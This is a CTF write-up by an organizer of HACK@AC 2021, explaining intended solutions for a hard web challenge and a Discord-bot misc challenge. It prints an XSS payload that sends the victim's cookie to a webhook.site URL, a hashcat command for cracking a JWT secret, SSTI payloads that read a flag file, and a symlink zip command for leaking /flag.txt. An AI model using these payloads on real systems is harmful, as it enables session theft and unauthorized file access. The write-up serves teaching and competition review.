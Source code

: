 #HACK@AC 2021 Writeups by samuzora

HACK@AC is a CTF organized by the Anglo-Chinese School (Independent) Robotics Technology Society, held on 16 Oct 2021. I was part of the organizing team and made a grand total of 4 challenges (one got removed later on). It was generally quite a fun experience for all (excluding !help) and I learnt quite a bit from organizing this CTF, from dockerizing applications to debugging trivial typos. Below are writeups for some of the challenges, both made by me and by others.

[Crypto](##crypto)

[Web](##web)

[Misc](##misc)

[]




## Web

### FatherBoat

Difficulty: Hard

Solves: 0 :<

Link: http://139.59.124.129:51000/

Description: You've heard of Mothership but have you heard of FatherBoat? Due to Mothership stealing all their visitors, the company couldn't make enough revenue to hire a good web dev. Before he left, he might have screwed over some stuff... Don't be too harsh on them please.

Author: Lucas

Intended Solution:
1. XSS
  Payload: `<script>fetch("https://webhook.site/unique-id/?c="+document.cookie)</script>`
  Explanation: The website tells us that one requires approval from the admin to post a story. Instead of getting approval from the admin, one can instead be the admin and thus bypass the approval process, especially since the admin seems to be sleeping/braindead. XSS is possible here as the story of the user is injected directly into the HTML DOM. The cookie is `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ImZhbHNlIn0.OqbksdUdBezk8bCqbh7wJOBuHFIKGoKGkdbAiu9SiJk`
2. Hashcat
  Payload: `./hashcat.exe -a 3 -m 16500 ./.hash --increment ?l?l?l?l?l?l`
  Explanation: After obtaining the token from the admin and checking it out with jwt.io, it seems like even the admin isn't an admin, which sucks tbh. (blame it on the dev) So we have to crack the JWT secret. Luckily for us, the secret isn't very long, so it can be cracked easily using Hashcat (6 lowercase chars). The key is "father".
3. SSTI
  Payload: `{{get_file('flag.txt')}}`
  Explanation: After verifying ourselves as the admin, we can successfully submit stories. However, upon submitting a story, the website prompts us that "Server-side story sharing" has yet to be implemented. This is a direct hint towards Server Side Template Injection (SSTI), so one can test for possible SSTI with ``{{7*7}} or {{7*'7'}}``. Then at a loss of what exactly to do, one might attempt `{{config.items()}}` and stumble upon 2 important key-value pairs: `('BUILT_IN', 'get_file()'), ('FLAG', 'flag.txt')`. Afterwards it's easy, just `{{get_file('flag.txt')}}` to get the flag, `ACSI{gr4ndf4th3r_v3ssel}`.

Comments:

This challenge was made quite last minute, as we were kinda short of hard web challenges. The puppeteer was especially hard to set up. Originally I tried using the Python import of puppeteer, pyppeteer, but it turned out to be a nightmare. Afterwards I just set up an API for the JS puppeteer and the Python flask app to interact. According to inside info, HCI had already solved the XSS part, but they realized it was a multi-part challenge and just gave up :(. Hence 0 solves

## Misc

### !help

Difficulty: ~~Medium~~ **HARD**

Solves: 3 (all HCI btw)

Description: There's a bot in the CTF discord that seems unusually quiet. Maybe try DMing it? I hear he gives flags...

Author: Lucas

Intended Solution:

**Zip Slip**

The intended (obvious) solution was to exploit the fact that the bot only accepted .zip files in the !upload command. Admittedly, without sufficient experience this might have been hard to spot, but granted that the participants were allowed to google I thought that this wouldn't be too difficult. Anyway, the 2-liner command to generate the symlink and zip it is as follows: `ln -s /flag.txt link; zip -y payload.zip link`. Then !upload `payload.zip` and the bot will return the flag, `ACSI{symb0l1c_link5}`. For more info, click [here](https://snyk.io/research/zip-slip-vulnerability).

Comments:

I really underestimated the difficulty of this challenge. Originally, it was a much simpler and much easier directory traversal via the !image command which allows one to view any image/file in the bot's machine. However, *a certain person* said it was too easy and suggested a zip slip vulnerability instead. Sorry to all who attempted this challenge, I've heard your cries for *!help*, and will tone down the difficulty of similar challenges in the future. For the record, a total of 3 hints were given for this challenge, and a 4th would have been given had a certain flag hoarder from HCI not submitted his flag.
